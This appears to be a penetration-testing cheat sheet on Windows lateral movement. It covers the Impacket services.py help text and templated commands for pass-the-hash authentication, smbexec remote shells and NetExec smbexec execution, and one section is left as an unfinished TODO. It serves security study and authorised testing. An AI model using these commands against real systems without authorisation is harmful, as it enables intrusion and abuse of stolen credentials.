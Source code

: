 # Unix Shell

Search Tag(s): #lateral-movement #service-control-manager #impacket #windows

## 01 - Impacket

### 1.1 - Services

#### 1.1.1 - Help Menu

```
$ services.py -h
Impacket v0.11.0 - Copyright 2023 Fortra

usage: services.py [-h] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-target-ip ip address]
                   [-port [destination port]]
                   target {start,stop,delete,status,config,list,create,change} ...

Windows Service manipulation script.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  {start,stop,delete,status,config,list,create,change}
                        actions
    start               starts the service
    stop                stops the service
    delete              deletes the service
    status              returns service status
    config              returns service configuration
    list                list available services
    create              create a service
    change              change a service configuration

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid
                        credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If ommited it will use whatever was specified as target. This is useful when target
                        is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```

#### 1.1.2 - Usage

TODO: Fill this info

```
$ services.py [<domain>/]<username>:<password>@<IP> [-codecs <codec>] list
```

Pass the Hash

```
$ services.py [<domain>/]<username>@<IP> -hashes <ntlm_hash> list

$ services.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<NT> list

$ services.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT> list
```

### 1.2 - SMBExec

Authenticate via impacket script with `smbexec`.

```
$ smbexec.py [<domain>/]<username>:<password>@<IP> -shell-type <cmd.exe | powershell.exe> [-codecs <codec>]
```

Pass the Hash

```
$ smbexec.py <username>@<IP> -hashes <ntlm_hash>

$ smbexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```

## 02 - NetExec

```
$ netexec smb <IP> --exec-method smbexec -u "<username>" -p "<password>" [-d <domain> | --local-auth]

$ netexec smb <IP> --exec-method smbexec -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

- [Hacktricks: SmbExec/ScExec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)

- [nv2lt: Windows Lateral Movement with SMB, PsExec and Alternatives](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)